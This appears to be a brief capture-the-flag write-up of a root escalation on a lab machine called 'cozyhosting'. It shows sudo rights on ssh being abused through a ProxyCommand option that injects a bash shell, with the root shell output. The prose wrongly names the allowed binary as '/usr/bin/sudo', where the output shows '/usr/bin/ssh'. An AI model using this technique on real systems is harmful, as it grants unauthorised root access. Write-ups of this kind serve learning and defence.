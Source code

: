 # Explanation
After getting the ssh session, I decided to run sudo -l which told me that josh has access to run "/usr/bin/sudo" with any parameters. after finding this out, I decided to go on GTFO bins and run the script there to get root access.

# sudo -l
```
josh@cozyhosting:~$ sudo -l
Matching Defaults entries for josh on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User josh may run the following commands on localhost:
    (root) /usr/bin/ssh *
```

# GTFO Bins
![[Pasted image 20230905221832.png]]

# shell
```
josh@cozyhosting:~$ sudo /usr/bin/ssh -o ProxyCommand=';bash 0<&2 1>&2' x
root@cozyhosting:/home/josh# whoami
root
root@cozyhosting:/home/josh# id
uid=0(root) gid=0(root) groups=0(root)
root@cozyhosting:/home/josh# 
```